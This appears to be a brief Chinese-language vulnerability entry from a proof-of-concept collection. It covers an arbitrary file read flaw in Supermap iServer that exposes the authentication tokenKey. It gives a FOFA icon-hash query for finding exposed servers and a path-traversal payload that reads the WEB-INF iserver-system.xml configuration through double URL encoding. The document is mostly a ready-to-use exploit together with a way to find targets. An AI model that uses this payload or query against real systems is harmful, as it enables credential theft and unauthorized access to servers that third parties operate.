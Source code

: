 ## Supermap iServer任意文件读取漏洞

## 漏洞描述
北京超图软件股份有限公司是聚焦地理信息软件和空间智能领域的基础软件与应用软件厂商，Supermap iServer 存在文件读取漏洞，攻击者可获取用于认证的tokenKey
## fofa

icon_hash="-1656662001"

## poc
```
/iserver/output/../WEB-IN%2546/iserver-system.xml
```
